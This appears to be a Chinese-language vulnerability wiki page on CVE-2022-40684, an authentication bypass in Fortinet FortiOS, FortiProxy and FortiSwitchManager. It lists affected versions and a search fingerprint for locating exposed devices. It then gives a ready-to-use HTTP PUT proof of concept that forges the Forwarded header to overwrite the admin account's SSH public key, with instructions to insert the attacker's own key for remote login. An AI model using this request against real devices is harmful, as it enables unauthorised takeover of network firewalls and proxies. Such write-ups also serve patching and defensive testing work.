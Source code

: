 # Fortinet FortiOS admin 远程命令执行漏洞 CVE-2022-40684

## 漏洞描述

Fortinet 周一指出，上周修补的 CVE-2022-40684 身份验证绕过安全漏洞，正在野外被广泛利用。作为管理界面上的一个身份验证绕过漏洞，远程威胁参与者可利用其登录 FortiGate 防火墙、FortiProxy Web 代理、以及 FortiSwitch Manager（FSWM）本地管理实例

## 漏洞影响

<a-checkbox checked>FortiOS <= 7.2.1、7.2.0、7.0.6、7.0.5、7.0.4、7.0.3、7.0.2、7.0.1、7.0.0</a-checkbox></br>

<a-checkbox checked>FortiProxy <= 7.2.0、7.0.6、7.0.5、7.0.4、7.0.3、7.0.2、7.0.1、7.0.0</a-checkbox></br>

<a-checkbox checked>FortiSwitchManager <= 7.2.0、7.0.0</a-checkbox></br>

## 网络测绘

<a-checkbox checked>title="FortiProxy"</a-checkbox></br>

## 漏洞复现

登录页面

![img](/assets/PeiQi-Wiki/img/1666071814971-81c710e9-88e2-4d38-9a74-9562d4ab7f51-20221018134817098.png)

验证POC, 利用时更换 admin用户名及 ssh-public-key1中的 ssh key 添加远程 SSH登录凭证

```java
PUT /api/v2/cmdb/system/admin/admin HTTP/1.1
Host: 
Accept: */*
Accept-Encoding: gzip, deflate
Content-Length: 597
Content-Type: application/json
Forwarded: for="[127.0.0.1]:8888";by="[127.0.0.1]:8888"
User-Agent: Report Runner

{"ssh-public-key1": "123"}
```

![img](/assets/PeiQi-Wiki/img/1666071940784-a4fb7239-bc4e-4a56-9bd2-1a3447dc40cf-20221018134812305.png)